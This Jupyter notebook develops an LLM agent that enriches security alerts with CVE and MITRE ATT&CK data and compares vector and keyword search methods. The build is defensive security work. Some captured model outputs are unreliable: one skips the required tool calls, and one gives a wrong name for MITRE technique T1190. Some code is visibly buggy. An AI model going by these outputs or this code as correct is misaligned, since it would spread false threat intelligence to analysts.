In [29]:
from typing import Annotated, TypedDict
from langchain_ollama import ChatOllama
from langchain_core.messages import SystemMessage, HumanMessage, BaseMessage
from langgraph.graph import StateGraph, END
from langgraph.graph.message import add_messages
from langgraph.prebuilt import ToolNode
from langchain_core.tools import tool
from src.retrieval.embedders import SentenceTransformerEmbedder
from src.retrieval.store import ElasticSearchVectorStore

embedder = SentenceTransformerEmbedder()
cve_store = ElasticSearchVectorStore(index_name='cve_index')
mitre_store = ElasticSearchVectorStore(index_name='mitre_attack')

@tool
def query_cve(query: str) -> str:
    '''Tool to query CVEs from the vector store. Useful for finding vulnerabilities related to specific software, attack techniques, or CVE IDs.'''
    vector = embedder.embed_query(query)
    results = cve_store.search(vector, top_k=3)
    return '\n\n'.join([f"{res['id']}: {res['description']}" for res in results])

@tool
def query_mitre(query: str) -> str:
    '''Tool to query MITRE techniques from the vector store. Useful for finding information about specific attack techniques.'''
    vector = embedder.embed_query(query)
    results = mitre_store.search(vector, top_k=3)
    return '\n\n'.join([f"{res['id']}: {res['description']}" for res in results])

Loading weights: 100%|██████████| 103/103 [00:00<00:00, 9290.21it/s]
BertModel LOAD REPORT from: sentence-transformers/all-MiniLM-L6-v2
Key                     | Status     |  | 
------------------------+------------+--+-
embeddings.position_ids | UNEXPECTED |  | 

Notes:
- UNEXPECTED:	can be ignored when loading from different task/architecture; not ok if you expect identical arch.


In [9]:
class AgentState(TypedDict):
    messages: Annotated[BaseMessage, add_messages]

llm = ChatOllama(model='llama3.1:8b')

available_tools = [query_cve, query_mitre]
llm_with_tools = llm.bind_tools(available_tools)

SYSTEM_PROMPT = '''
You are a SOC expert analyst. Your work is to analyze security alerts, logs and threat intelligence to identify potential security incidents and recommend appropriate responses.
Your goal is to analyze security alerts and enrich them with relevant information from CVE and MITRE databases.
YOU HAVE TOOLS AVAILABLE TO YOU, USE THEM WHEN NECESSARY TO COMPLETE YOUR TASKS.

GOLD RULE:
If user provides you with an alert, you MUST analyze it and enrich it with relevant information from CVE and MITRE databases. 
You MUST use the tools available to you to retrieve this information. You MUST NOT provide a final answer without using the tools to retrieve relevant information.

ROUTING RULES:
1. Behaviors, commands, processes or malware -> USE query_mitre TOOL
2. Software versions, scan results or vulnerability identifiers -> USE query_cve TOOL
3. Vulnerabilities + Post-explotation behaviors -> USE BOTH TOOLS
4. If you need to retrieve information to complete your tasks, ALWAYS USE THE TOOLS.
5. If do not know which tool to use, USE BOTH TOOLS.

FINAL ANSWER RULES:
ONLY when you have retrieved relevant information from the tools, you can provide a final answer.
Use EXACTLY this structure in Markdown format for your final answer:
### Incident Summary
[Summary]
### Intelligence Correlation
[CVEs and MITRE explanations. If both, explain relationship between them]
### Priority and Severity
[Your assessment of the priority and severity of the incident, based on the information you have]
### Recommended Response
[Your recommended response to the incident, including any immediate actions that should be taken and any further investigation that may be needed]
Answer in a structured, professional and concise way.
'''

def agent_node(state: AgentState):
    '''Agent node that analyze the alert and decides if use tools or writes a final answer.'''
    messages = state['messages']
    
    if not isinstance(messages[0], SystemMessage):
        messages = [SystemMessage(content=SYSTEM_PROMPT)] + messages

    response = llm_with_tools.invoke(messages)
    print(f'DEBUG: Tool calls: {response.tool_calls}')
    return {'messages': [response]}


def use_tool_decision(state: AgentState):
    '''Decision node that determines whether the agent should use a tool or not.'''
    last_message = state['messages'][-1]
    
    if hasattr(last_message, 'tool_calls') and len(last_message.tool_calls) > 0:
        return 'action'
    
    return 'end'

In [10]:
workflow = StateGraph(AgentState)
workflow.add_node('agent', agent_node)
workflow.add_node('action', ToolNode(available_tools))
workflow.set_entry_point('agent')
workflow.add_conditional_edges(
    'agent',
    use_tool_decision,
    {
        'action': 'action',
        'end': END
    }
)

workflow.add_edge('action', 'agent')
app = workflow.compile()

In [3]:
user_input = input("\nUser: ")

inputs = {'messages': [HumanMessage(content=user_input)]}
for event in app.stream(inputs, stream_mode='values'):
    last_message = event['messages'][-1]
    if hasattr(last_message, 'content') and last_message.content and not hasattr(last_message, 'tool_calls'):
        print(f"Agent: {last_message.content}")

Agent: hola
Agent: CVE-2025-59832: Horilla is a free and open source Human Resource Management System (HRMS). Prior to version 1.4.0, there is a stored XSS vulnerability in the ticket comment editor. A low-privilege authenticated user could run arbitrary JavaScript in an admin’s browser, exfiltrate the admin’s cookies/CSRF token, and hijack their session. This issue has been patched in version 1.4.0.

CVE-2026-40867: Horilla is a free and open source Human Resource Management System (HRMS). In 1.5.0, a broken access control vulnerability in the helpdesk attachment viewer allows any authenticated user to view attachments from other tickets by changing the attachment ID. This can expose sensitive support files and internal documents across unrelated users or teams.

CVE-2025-48869: Horilla is a free and open source Human Resource Management System (HRMS). Unauthenticated users can access uploaded resume files in Horilla 1.3.0 by directly guessing or predicting file URLs. These files are 

In [ ]:
# Invoke
user_input = 'EDR alert: Detected CVE-2021-44228 exploitation attempt on web server. '

inputs = {'messages': [HumanMessage(content=user_input)]}
messages = app.invoke(inputs)
for m in messages["messages"]:
    m.pretty_print()

DEBUG: Tool calls: []
================================ Human Message =================================

EDR alert: Detected CVE-2021-44228 exploitation attempt on web server. 
================================== Ai Message ==================================

### Incident Summary
EDR alert indicates a possible exploitation attempt of CVE-2021-44228 on a web server.

### Intelligence Correlation
We will use the `query_cve` tool to gather information about the identified vulnerability.
The MITRE database may also provide additional context or related attack techniques that an attacker could utilize.

### Priority and Severity
**Priority: High**
**Severity: Critical**

### Recommended Response
Firstly, we recommend investigating the web server's logs for any suspicious activity related to this exploitation attempt. 
Next, ensure that all software on the affected system is up-to-date, especially Log4j version 2.
Further investigation should be conducted to identify potential entry points and

In [11]:
for event in app.stream(inputs, stream_mode='updates'):
    for node_name, node_state in event.items():
        print(f'\nNODO: [{node_name}]')

        last_message = node_state['messages'][-1]

        if hasattr(last_message, 'tool_calls') and last_message.tool_calls:
            for tool_call in last_message.tool_calls:
                print(f"Tool call: {tool_call}")

        elif getattr(last_message, 'type', '') == 'tool':
            resp = last_message.content[:150].replace('\n', ' ')
            print(f"Tool response [{last_message.name}]: {resp}...")

        elif getattr(last_message, 'type', '') == 'ai':
            print(f"AI: {last_message.content}")
            


DEBUG: Tool calls: []

NODO: [agent]
AI: ### Incident Summary
EDR alert detected CVE-2021-44228 exploitation attempt on a web server.

### Intelligence Correlation
The detected CVE is related to a known vulnerability in Apache Log4j, tracked as CVE-2021-44228 by the Common Vulnerabilities and Exposures (CVE) database. This vulnerability allows an attacker to execute arbitrary code on the affected system through a crafted log message. According to MITRE, this vulnerability is associated with the attack technique T1190 - Exploit Use of Out-of-Date Software.

### Priority and Severity
High priority, High severity. The exploitation attempt indicates potential compromise of the web server, which could lead to data theft or other malicious activities.

### Recommended Response
Immediately investigate the web server for signs of compromise and take remediation steps to patch the vulnerability. This may involve applying a security update or reconfiguring the Log4j version to a secure one. Moni

## Prueba sin tools

In [1]:
import os
from typing import Annotated, TypedDict, List
from pydantic import BaseModel, Field
import json

from langgraph.graph import StateGraph, END
from langchain_core.messages import SystemMessage, HumanMessage, BaseMessage
from langchain_ollama import ChatOllama


from src.retrieval.embedders import SentenceTransformerEmbedder, LocalvLLMEmbedder
from src.retrieval.store import ElasticSearchVectorStore

local_embedder = LocalvLLMEmbedder(model_name='bge-m3')
embedder = SentenceTransformerEmbedder()
emb = SentenceTransformerEmbedder('BAAI/bge-small-en-v1.5')
cve_store = ElasticSearchVectorStore(index_name='cve_index')
mitre_store = ElasticSearchVectorStore(index_name='mitre_attack')
mitre_store_v2 = ElasticSearchVectorStore(index_name='mitre_attack_v2')
mitre_store_bge = ElasticSearchVectorStore(index_name='mitre_attack_bge')
mitre_store_v2_bge = ElasticSearchVectorStore(index_name='mitre_attack_v2_bge_small')
# llm = ChatOllama(model='llama3.1:8b')

c:\Users\omarinf\Documents\TFM\alert_correlation\.venv\Lib\site-packages\langgraph\cache\base\__init__.py:8: LangChainPendingDeprecationWarning: The default value of `allowed_objects` will change in a future version. Pass an explicit value (e.g., allowed_objects='messages' or allowed_objects='core') to suppress this warning.
  from langgraph.checkpoint.serde.jsonplus import JsonPlusSerializer
c:\Users\omarinf\Documents\TFM\alert_correlation\.venv\Lib\site-packages\tqdm\auto.py:21: TqdmWarning: IProgress not found. Please update jupyter and ipywidgets. See https://ipywidgets.readthedocs.io/en/stable/user_install.html
  from .autonotebook import tqdm as notebook_tqdm
Loading weights: 100%|██████████| 103/103 [00:00<00:00, 6513.88it/s]
BertModel LOAD REPORT from: sentence-transformers/all-MiniLM-L6-v2
Key                     | Status     |  | 
------------------------+------------+--+-
embeddings.position_ids | UNEXPECTED |  | 

Notes:
- UNEXPECTED:	can be ignored when loading from differ

In [3]:
from langchain_google_genai import ChatGoogleGenerativeAI
from src.agent.token_tracker import UniversalTokenTracker
from src.agent.config import AgentConfig
from langchain_openai import ChatOpenAI

from dotenv import load_dotenv
import os

load_dotenv()

API_KEY = os.getenv('GEMINI_TOKEN')

llm = ChatGoogleGenerativeAI(model='gemini-3.1-flash-lite', api_key=API_KEY, temperature=0.2, seed=42)

# llm = ChatOpenAI(
#     model="gpt-oss-20b",
#     api_key='EMPTY',
#     temperature=0.2,
#     base_url="http://10.0.152.198:8001/v1"
# )

# llm = ChatOpenAI(
#     model="gemma-4-26b-a4b",
#     api_key='EMPTY',
#     # streaming=True,
#     # stream_usage=True,
#     temperature=0.2,
#     # max_tokens=None,
#     # timeout=12000,
#     # reasoning_effort="low",
#     # max_retries=3,
#     base_url="http://10.0.152.198:8003/v1",
#     # http_client=httpx.Client(timeout=httpx.Timeout(connect=60.0, read=600.0, write=60.0, pool=60.0))
# )

tracker = UniversalTokenTracker()
tracker.reset()
config = AgentConfig(
        use_context_window=False,
        context_window_size=10,
        generate_report=False,
        report_dir='reports',
        mitre_top_k=10
    )


In [4]:
import os
from langchain_core.messages import SystemMessage, HumanMessage
from src.models.models import AlertClasification, AgentState, ValidationReport
import time


def classification_node(state: AgentState) -> AgentState:
    '''Node that classifies the alert and extracts relevant keywords for MITRE and CVE searches.'''
    
    tracker.set_current_node('classification')  
    start_time = time.time()

    prompt = f'''
    You are a SOC analyst. Your task is to analyze the following security alert and determine if it contains information that can be used to search in MITRE and CVE databases.

    Alert: {state['original_alert']}

    For MITRE, you are looking for behaviors, commands, processes, tactics or malware mentioned in the alert. If you find any, set mitre_search to True and extract the relevant keywords for searching in MITRE database.

    For CVE, you are looking for software versions, scan results or vulnerability identifiers mentioned in the alert. If you find any, set cve_search to True and extract the relevant keywords for searching in CVE database.
    
    Also, create a technical description of the alert that can be used as a query for the searches in MITRE and CVE databases. DO NOT make assumptions, just explain the alert with details.
    
    EXAMPLES:
    - Alert: "Multiple failed login attempts in RDP" mitre_search: True (brute force), cve_search: False (no vulnerabilities mentioned)
    - Alert: "WINRAR old version detected that allows remote code execution" mitre_search: False, cve_search: True (WINRAR vulnerability)
    - Alert: "Mimikatz process detected running in memory" mitre_search: True (credential dumping), cve_search: False (no vulnerabilities mentioned)
    - Alert: "Proxyshell exploitation (CVE-2021-34473) followed by webshell detected" mitre_search: True (Web Shell), cve_search: True (Proxyshell vulnerability)
    
    At the slightest suspicion of malicious behavior, you MUST set mitre_search to True, and if there is any mention of exploitable software, vulnerabilities or patches, you MUST set cve_search to True.
    IMPORTANT for mitre_description: if the alert is a web scanner or scanning tool event, don't focus solely on its scanning activity; also describe its behavior and objectives.
    '''
    structured_llm = llm.with_structured_output(AlertClasification)
    tracked_llm = structured_llm.with_config(callbacks=[tracker])
    classification = tracked_llm.invoke([SystemMessage(content=prompt),
                                            HumanMessage(content=f'The alert to analyze is: {state["original_alert"]}')])
    
    tracker.record_node_time('classification', time.time() - start_time)
    return {'classification': classification}



def mitre_search_node(state: AgentState) -> AgentState:
    '''Node that performs MITRE search if mitre_search is True.'''

    if not state['classification'].mitre_search:
        return {'mitre_data': 'No relevant MITRE information found in the alert.'}
    
    tracker.set_current_node(node_name='mitre_search_node')
    start_time = time.time()

    query = state['classification'].mitre_description
    query_vector = embedder.embed_query(query)
    results = mitre_store.search(query_vector, top_k=config.mitre_top_k)

    results_text = 'MITRE results:\n' + '\n'.join([f"Technique ID: {r['technique_id']}\n"
                    f"Name: {r['name']}\n"
                    f"Description: {r['description']}\n"
                    f"Tactics: {r['tactics']}\n"
                    f"Platforms: {r['platforms']}\n"
                    "-----------------" for r in results])
    
    tracker.record_node_time('mitre_search_node', time.time() - start_time)
    return {'mitre_data': results_text}

def cve_search_node(state: AgentState) -> AgentState:
    '''Node that performs CVE search if cve_search is True.'''

    if not state['classification'].cve_search:
        return {'cve_data': 'No relevant CVE information found in the alert.'}

    tracker.set_current_node('cve_search_node')
    start_time = time.time()
    
    query = state['classification'].cve_description
    query_vector = embedder.embed_query(query)
    results = cve_store.search(query_vector, top_k=3)

    results_text = 'CVE results:\n' + '\n'.join([f"CVE ID: {r['id']}\n"
                    f"Title: {r['title']}\n"
                    f"Description: {r['description']}\n"
                    f"Published Date: {r['published_date']}\n"
                    f"CVSS: {r['cvss']}\n"
                    f"Affected Products: {r['versions']}\n"
                    f"Mitigations: {r['mitigations']}\n"
                    f"SSVC: {r['ssvc']}\n"
                    f"References: {r['references']}\n"
                    f"In KEV: {r['in_kev']}\n"
                    "-----------------" for r in results])
    
    tracker.record_node_time('cve_search_node', time.time() - start_time)
    return {'cve_data': results_text}

def alert_context_node(state: AgentState) -> AgentState:
    '''Node that retrieves previous and subsequent alerts to provide context to the agent.'''
    if not config.use_context_window:
        return {'context_window': 'Context window is disabled by configuration.'}
    
    try:
        tracker.set_current_node('alert_context_node')
        start_time = time.time()

        alert = state['original_alert']
        context_window = alert_data.get_context_window(alert, config.context_window_size)
        
        tracker.record_node_time('alert_context_node', time.time() - start_time)
    
    except Exception as e:
        print(f"Error occurred while retrieving alert context: {e}")
        context_window = []
    return {'context_window': context_window}

def validation_node(state: AgentState) -> AgentState:
    '''Node that validates the relevance of the retrieved MITRE and CVE information.'''
    
    tracker.set_current_node('validation_node')
    start_time = time.time()

    prompt = f'''
    You are a SOC analyst. Your task is to evaluate the relevance of the retrieved MITRE techniques and CVE vulnerabilities from an automatic search system.
    You must evaluate if each result is actually relevant to the original alert or whether it is semantic noise (for example, a MITRE technique that shares some keywords with the alert but is not actually related to the attack described in the alert).
    You also have a context window with previous and subsequent alerts that can help you understand better the situation and the relevance of the retrieved information. Use it to determine if the retrieved MITRE techniques and CVE vulnerabilities are actually relevant or are noise.
    
    ORIGINAL ALERT: {state['original_alert']}

    CONTEXT WINDOW: {state['context_window']}

    EXTRACTED MITRE RESULTS: {state['mitre_data']}
    
    EXTRACTED CVE RESULTS: {state['cve_data']}

    INSTRUCTIONS:
    - Compare each technique and vulnerability with the original alert.
    - For each MITRE technique retrieved, assign a relevance score from 0 to 1, where 0 means completely irrelevant and 1 means highly relevant. 
    - Provide a detailed explanation of why you assigned that score.
    - Make a final decision on whether this technique should be included in the final report or not (decision=True/False).
    '''

    validator = llm.with_structured_output(ValidationReport)
    validation_report = validator.invoke([HumanMessage(content=prompt)], callbacks=[tracker])

    tracker.record_node_time('validation_node', time.time() - start_time)

    for evaluation in validation_report.mitre_evaluations + validation_report.cve_evaluations:
        print(f"ID {evaluation.item_id} - Relevance Score: {evaluation.relevance_score}, Decision: {evaluation.decision}\nExplanation: {evaluation.explanation}\n")
    return {'validation_report': validation_report}


def final_report_node(state: AgentState) -> AgentState:
    '''Node that generates a final report based on the original alert, the classification, and the retrieved MITRE and CVE information.'''
    if not config.generate_report:
        return {'final_report': 'Report generation is disabled by configuration.'}
    
    tracker.set_current_node('final_report_node')
    start_time = time.time()

    validated_data = state['validation_report']
    validated_mitre = [e for e in validated_data.mitre_evaluations if e.decision]
    validated_cve = [e for e in validated_data.cve_evaluations if e.decision]
    
    prompt = f'''
    You are a SOC analyst. Your task is to generate a final report based on the information about the alert, the relevant MITRE techniques and its tactics and CVE vulnerabilities that have been identified.
    Generate a concise report in Markdown format summarizing the incident, correlating the MITRE and CVE information with the original alert, and providing an assessment of the priority and severity of the incident, as well as recommended response actions.
    '''

    user_input = f'''
    Original Alert: {state['original_alert']}
    Classification: {state['classification']}
    CONTEXT WINDOW: {state['context_window']}
    MITRE Information: {validated_mitre}
    CVE Information: {validated_cve}'''

    response = llm.invoke([SystemMessage(content=prompt), HumanMessage(content=user_input)], callbacks=[tracker])
    alert_id = state['original_alert'].get('id', 'unknown_alert_id')
    # Escribir en un archivo de texto el informe final
    report_path = os.path.join(config.report_dir, f'final_report_{alert_id}.md')
    os.makedirs(config.report_dir, exist_ok=True)
    with open(report_path, 'w') as f:
        f.write(response.content[0]['text'])

    tracker.record_node_time('final_report_node', time.time() - start_time)
    
    return {'final_report': response.content[0]}


In [5]:
workflow = StateGraph(AgentState)
workflow.add_node('classification', classification_node)
workflow.add_node('mitre_search_node', mitre_search_node)
workflow.add_node('cve_search_node', cve_search_node)
workflow.add_node('alert_context_node', alert_context_node)
workflow.add_node('validation_node', validation_node)
workflow.add_node('final_report_node', final_report_node)

workflow.set_entry_point('classification')

workflow.add_edge('classification', 'mitre_search_node')
workflow.add_edge('classification', 'cve_search_node')
workflow.add_edge('classification', 'alert_context_node')

workflow.add_edge(['mitre_search_node', 'cve_search_node', 'alert_context_node'], 'validation_node')
workflow.add_edge('validation_node', 'final_report_node')

workflow.add_edge('final_report_node', END)

app = workflow.compile()

In [63]:
from typing import Annotated, TypedDict, List, Dict

class AgentState(TypedDict):
    original_alert: Dict
    context_window: List[str] = Field(description="A list of previous and post alerts that can provide context to the agent when analyzing the current alert. This can include previous alerts from the same source, alerts with similar characteristics, or any other relevant information that can help the agent understand the situation better.")
    
    classification: AlertClasification
    mitre_data1: Annotated[List[Dict], Field(description="Relevant MITRE information retrieved")]
    mitre_data2: Annotated[List[Dict], Field(description="Relevant MITRE information retrieved")]
    mitre_data3: Annotated[List[Dict], Field(description="Relevant MITRE information retrieved")]

    cve_data: Annotated[str, Field(description="Relevant CVE information retrieved")]

    validation_report: ValidationReport = Field(description="The validation report containing evaluations for MITRE and CVE items")

    final_report: Annotated[str, Field(description="Final report generated by the agent")]

def mitre_search_node(state: AgentState) -> AgentState:
    '''Node that performs MITRE search if mitre_search is True.'''

    if not state['classification'].mitre_search:
        return {'mitre_data': 'No relevant MITRE information found in the alert.'}
    
    # tracker.set_current_node(node_name='mitre_search_node')
    # start_time = time.time()

    query1 = state['classification'].mitre_description
    query2 = state['classification'].mitre_keywords
    query3 = state['original_alert']['rule']['description']

    prefix = "Represent this sentence for searching relevant passages: "

    query_vector1 = emb.embed_query(prefix + query1)
    query_vector2 = emb.embed_query(prefix + query2)
    query_vector3 = emb.embed_query(prefix + query3)

    results1 = mitre_store_v3_bge.search(query_vector1, top_k=config.mitre_top_k)
    results2 = mitre_store_v3_bge.search(query_vector2, top_k=config.mitre_top_k)
    results3 = mitre_store_v3_bge.search(query_vector3, top_k=config.mitre_top_k)

    # results1 = mitre_store_v2.search_mitre_hybrid(query_vector=query_vector1, query_text=query2, top_k=config.mitre_top_k)
    # results2 = mitre_store_v2.search_mitre_hybrid(query_vector=query_vector2, query_text=query2, top_k=config.mitre_top_k)
    # results3 = mitre_store_v2.search_mitre_hybrid(query_vector=query_vector3, query_text=query2, top_k=config.mitre_top_k)

    # results_text = 'MITRE results:\n' + '\n'.join([f"Technique ID: {r['technique_id']}\n"
    #                 f"Name: {r['name']}\n"
    #                 f"Description: {r['description']}\n"
    #                 f"Tactics: {r['tactics']}\n"
    #                 f"Platforms: {r['platforms']}\n"
    #                 "-----------------" for r in results])
    
    # tracker.record_node_time('mitre_search_node', time.time() - start_time)
    return {'mitre_data1': results1,
            'mitre_data2': results2,
            'mitre_data3': results3}

In [7]:
workflow = StateGraph(AgentState)
workflow.add_node('classification', classification_node)
workflow.add_node('mitre_search_node', mitre_search_node)

workflow.set_entry_point('classification')
workflow.add_edge('classification', 'mitre_search_node')
workflow.add_edge('mitre_search_node', END)
# workflow.add_edge('classification', END)
app = workflow.compile()

In [ ]:
user_input = 'EDR alert: Detected exploitation attempt on web server. '

inputs = {'original_alert': user_input}
for event in app.stream(inputs, stream_mode='updates'):
    for node_name, node_state in event.items():
        print(f'\nNODO: [{node_name}]')

        if 'classification' in node_state:
            print(f"Classification: {node_state['classification']}")

        if 'mitre_data' in node_state:
            print(f"MITRE Data: {node_state['mitre_data'][:200]}...")

        if 'cve_data' in node_state:
            print(f"CVE Data: {node_state['cve_data'][:200]}...")

        if 'final_report' in node_state:
            print(f"Final Report: {node_state['final_report']}")


NODO: [classification]
Classification: mitre_search=True mitre_keywords='exploitation attempt, web server, web application exploitation, web server vulnerability exploitation' mitre_description='EDR alert indicates an exploitation attempt targeting a web server, suggesting malicious activity aimed at leveraging a vulnerability in the web server or its hosted web application.' cve_search=False cve_keywords='' cve_description=''


# Pruebas búsqueda vectorial

In [64]:
# Crear dataset de descripciones y keywords (primer nodo)
import pandas as pd
import json

workflow = StateGraph(AgentState)
workflow.add_node('classification', classification_node)
workflow.set_entry_point('classification')
workflow.add_edge('classification', END)
app = workflow.compile()

df = pd.read_csv('data/unique_alerts.csv')
data = []

for i, row in df.iterrows():
    alert_data = json.loads(row['alert'])
    key_path = ['rule', 'mitre']  
    parent = alert_data
    for key in key_path[:-1]:
        parent = parent.get(key, {})
        if not isinstance(parent, dict):
            parent = {}
            break
    parent.pop(key_path[-1], None)
    labels = eval(row['real_ttps'])
    print(alert_data)
    print(labels)

    try:
        final_state = app.invoke({'original_alert': alert_data})
    except: 
        time.sleep(60)
        final_state = app.invoke({'original_alert': alert_data})

    data.append({
            'original_alert': alert_data,
            'description': final_state['classification'].mitre_description,
            'keywords': final_state['classification'].mitre_keywords,
            'alert_desc': alert_data['rule']['description'],
            'labels': labels
        }
    )

with open('data/unique_alerts_classification_v2.json', 'w', encoding='utf-8') as file:
    json.dump(data, file, indent=4, ensure_ascii=False)


{'timestamp': '2025-09-22T18:37:00.601+0000', 'rule': {'level': 6, 'description': 'Processes running for all users were queried with ps command.', 'id': '92604', 'firedtimes': 1, 'mail': False, 'groups': ['audit_detections']}, 'agent': {'id': '002', 'name': 'videoserver', 'ip': '172.17.100.121'}, 'manager': {'name': 'wazuh'}, 'id': '1758566220.11498102', 'full_log': 'type=SYSCALL msg=audit(1758566218.934:4968): arch=c000003e syscall=59 success=yes exit=0 a0=55de6e506188 a1=55de6e4f6c90 a2=55de6e5060f8 a3=1b6 items=3 ppid=3135 pid=3136 auid=4294967295 uid=33 gid=33 euid=33 suid=33 fsuid=33 egid=33 sgid=33 fsgid=33 tty=pts0 ses=4294967295 comm="ps" exe="/usr/bin/ps" subj==unconfined key="T1166_Seuid_and_Setgid"\x1dARCH=x86_64 SYSCALL=execve AUID="unset" UID="www-data" GID="www-data" EUID="www-data" SUID="www-data" FSUID="www-data" EGID="www-data" SGID="www-data" FSGID="www-data" type=EXECVE msg=audit(1758566218.934:4968): argc=2 a0="ps" a1="auxwww" type=PATH msg=audit(1758566218.934:4968

In [5]:
import json
with open('data/unique_alerts_classification_v2.json', 'r', encoding='utf-8') as file:
    data = json.load(file)

data

[{'original_alert': {'timestamp': '2025-09-22T18:37:00.601+0000',
   'rule': {'level': 6,
    'description': 'Processes running for all users were queried with ps command.',
    'id': '92604',
    'firedtimes': 1,
    'mail': False,
    'groups': ['audit_detections']},
   'agent': {'id': '002', 'name': 'videoserver', 'ip': '172.17.100.121'},
   'manager': {'name': 'wazuh'},
   'id': '1758566220.11498102',
   'full_log': 'type=SYSCALL msg=audit(1758566218.934:4968): arch=c000003e syscall=59 success=yes exit=0 a0=55de6e506188 a1=55de6e4f6c90 a2=55de6e5060f8 a3=1b6 items=3 ppid=3135 pid=3136 auid=4294967295 uid=33 gid=33 euid=33 suid=33 fsuid=33 egid=33 sgid=33 fsgid=33 tty=pts0 ses=4294967295 comm="ps" exe="/usr/bin/ps" subj==unconfined key="T1166_Seuid_and_Setgid"\x1dARCH=x86_64 SYSCALL=execve AUID="unset" UID="www-data" GID="www-data" EUID="www-data" SUID="www-data" FSUID="www-data" EGID="www-data" SGID="www-data" FSGID="www-data" type=EXECVE msg=audit(1758566218.934:4968): argc=2 a0="

In [6]:
def predictions_check(global_metrics, results, labels):
    res = {'exact': 0, 'parent': 0, 'sub': 0, 'total_t': 0, 'total_a': 0}

    preds_set = set(results)
    # Precalculamos los padres de las predicciones que tienen subtécnica (ej: 'T1003.001' -> 'T1003')
    preds_parents_set = {pred.split('.')[0] for pred in results if '.' in pred}

    for label in labels:
        # 1. Prioridad Máxima: ¿Acierto Exacto?
        if label in preds_set:
            res['exact'] += 1
            res['total_t'] += 1
            continue  # Pasa al siguiente label, ignorando padre/hijo
            
        # Si no fue exacto, evaluamos si es padre o hijo
        has_subtechnique = '.' in label
        
        # 2. Segunda Prioridad: ¿Acierto Padre?
        # (El label real es sub-técnica, pero el modelo predijo la raíz)
        if has_subtechnique and (label.split('.')[0] in preds_set):
            res['parent'] += 1
            res['total_t'] += 1
            
        # 3. Tercera Prioridad: ¿Acierto Hijo?
        # (El label real es raíz, pero el modelo predijo una de sus sub-técnicas)
        elif not has_subtechnique and (label in preds_parents_set):
            res['sub'] += 1
            res['total_t'] += 1

    res['total_a'] = 1 if res['total_t'] > 0 else 0

    # Actualizamos métricas globales
    for metric, value in res.items():
        global_metrics[metric] += value
        
    return res

def query_full_text(vector_store, query, top_k):
    q_full_text = {
                "size": top_k,
                "query": {
                        "match": {
                            "text_to_search": {
                                "query": query,
                                # "boost": beta
                            }
                        }        
                }
    }

    response = vector_store.client.search(index=mitre_store.index_name, body=q_full_text)
    results = [hit['_source'] for hit in response['hits']['hits']]
    return results

def query_multi_match(vector_store, query, top_k):
    q_multi = {
            "size": top_k,
            "query": {
                    "multi_match": {
                        "query": query,
                        # Buscamos en el nombre (con peso x3), en el ID y en la descripción
                        "fields": ["name^3", "technique_id^2", "tactics", "description", "procedures", "detections"],
                        # "boost": 0.05 # Un peso muy bajito para que no rompa la escala del 0 al 1
                    }
                },
        }
    response = vector_store.client.search(index=mitre_store.index_name, body=q_multi)
    results = [hit['_source'] for hit in response['hits']['hits']]
    return results

def query_hybrid_simple(vector_store, query_vector, query_text, top_k):
    q = {
                "size": top_k,
                "knn": {
                    "field": "vector",
                    "query_vector": query_vector,
                    "k": top_k,
                    "num_candidates": 100,
                    "boost": 0.7
                },
                "query": {
                        "match": {
                            "text_to_search": {
                                "query": query_text,
                                "boost": 0.5
                            }
                        }        
                }
    }

    response = vector_store.client.search(index=mitre_store.index_name, body=q)
    results = [hit['_source'] for hit in response['hits']['hits']]
    return results

def hybrid_query(vector_store, query_vector, alert_text, desc_text, keywords_text, top_k=5):
    query = {
        "size": top_k,
        # 1. Componente Semántico (Keywords Vectorizadas)
        "knn": {
                "field": "vector",
                "query_vector": query_vector,
                "k": top_k,
                "num_candidates": 100,
                "boost": 0.4  
        },
        # 2. Componente Léxico - Alerta en crudo (busca firmas exactas)
        "query": {
                "match": {
                    "text_to_search": {
                        "query": alert_text,
                        "boost": 0.2
                    }
                }
        },
        # 3. Componente Léxico - Descripción LLM (aporta contexto)
        "query": {            
                "match": {
                    "text_to_search": {
                        "query": desc_text,
                        "boost": 0.2
                    }
                }
        },
        # 4. Componente Léxico - Keywords (aporta términos normalizados)
        "query": {             
                "match": {
                    "text_to_search": {
                        "query": keywords_text,
                        "boost": 0.2
                    }
                }
        }
    }
                    
    
    response = vector_store.client.search(index=vector_store.index_name, body=query)
    return [hit['_source'] for hit in response['hits']['hits']]

def search_mitre_ultimate(vector_store, emb_keywords, emb_desc, alert_desc, keywords, top_k=5):
    """
    Fusión Nativa Híbrida (Multi-Vector + Full Text BM25)
    Basado en el rendimiento empírico: 
    - Semántica a través de Keywords/Desc del LLM.
    - Léxica a través del nombre de la regla (alert_desc) y keywords contra el texto completo.
    """
    query = {
        "size": top_k,
        
        # --- 1. COMPONENTE SEMÁNTICO (Vectores) ---
        # Se sitúa en la RAÍZ de la consulta.
        # Nota: Pasar una lista en "knn" está soportado desde Elasticsearch 8.11+
        "knn": [
            {
                "field": "vector",
                "query_vector": emb_keywords,
                "k": top_k,
                "num_candidates": 50,  # Obligatorio en Elasticsearch
                "boost": 0.4
            },
            {
                "field": "vector",
                "query_vector": emb_desc,
                "k": top_k,
                "num_candidates": 50,  # Obligatorio en Elasticsearch
                "boost": 0.15
            }
        ],
        
        # --- 2. COMPONENTE LÉXICO (BM25) ---
        # El bloque 'query' opera en paralelo al bloque 'knn'.
        # Elastic sumará automáticamente los scores de ambos mundos.
        "query": {
            "bool": {
                "should": [
                    {
                        "match": {
                            "text_to_search": {
                                "query": alert_desc,
                                "boost": 0.25
                            }
                        }
                    },
                    {
                        "match": {
                            "text_to_search": {
                                "query": keywords,
                                "boost": 0.20
                            }
                        }
                    }
                ],
                "minimum_should_match": 0
            }
        },
        # "_source": ["technique_id", "name", "description", "procedures"]
    }
    
    response = vector_store.client.search(index=vector_store.index_name, body=query)
    return [hit['_source'] for hit in response['hits']['hits']]

def rrf_fuse(ranked_lists: list[list[dict]], top_k: int = 10, k: int = 60) -> list[dict]:
    """
    Reciprocal Rank Fusion estándar.
 
    Cada lista es un ranking de documentos con 'technique_id'.
    Para cada técnica acumula: score += 1 / (k + posición_1_indexed)
    Devuelve los top_k documentos ordenados por score descendente.
 
    k=60 es el valor por defecto de la literatura.
    No requiere normalizar scores heterogéneos entre KNN y BM25.
    """
    scores: dict[str, float] = {}
    docs:   dict[str, dict]  = {}
 
    for ranked_list in ranked_lists:
        for rank, doc in enumerate(ranked_list):
            tid = doc.get('technique_id')
            if not tid:
                continue
            scores[tid] = scores.get(tid, 0.0) + 1.0 / (k + rank + 1)
            docs[tid] = doc   # conservamos el doc completo
 
    sorted_ids = sorted(scores, key=lambda x: -scores[x])[:top_k]
